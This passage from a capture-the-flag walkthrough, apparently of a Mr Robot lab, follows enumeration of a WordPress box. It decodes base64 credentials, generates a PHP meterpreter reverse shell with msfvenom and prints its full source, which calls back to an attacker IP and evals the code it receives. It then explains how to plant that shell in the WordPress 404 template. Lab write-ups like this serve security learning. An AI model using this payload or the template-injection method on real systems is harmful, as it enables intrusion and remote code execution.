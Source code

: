 While the brute forcing was busy, I continue to look here and there manually, as I had nothing else to do and everything took ages. Got some more output of `gobuster`, so I looked at these hints. Finally, found something very interesting at <http://10.10.59.31/license>. I stripped out the tons of new lines in my output here.

````
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
...
do you want a password or something?
...
ZW*****0OkVSMjgtM*****o=
````

[Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) gave me the tip this is a encoded in `base64`.

````commandline
$ echo "ZW*****0OkVSMjgtM*****o==" | base64 -d
elliot:****-****
````

Okay! Let's stop this `hydra` brute forcing by now :-D

Log in with these credentials, we now know that this is about `WordPress 4.3.1`. Knowing `WordPress`, so I prepare already a web shell. This time, with `msfvenon`, to change a bit and because I'm in the mood to use the metasploit tools today. We have a few different methods on how we could install our reverse shell, but I will only cover one method.

````commandline
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=$IP_HOST LPORT=4444 -f raw -o payload.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1112 bytes
Saved as: payload.php
````

The content of the `payload.php` file is as following:

````commandline
$ cat payload.php 
/*<?php /**/ error_reporting(0); $ip = '10.8.208.30'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
````

We can paste this easily in the `404 template` of `Wordpress` :-) For this go to `Appearance` > `Editor`. And in the right column select the item `404 Template`. Pasted the above code there. 
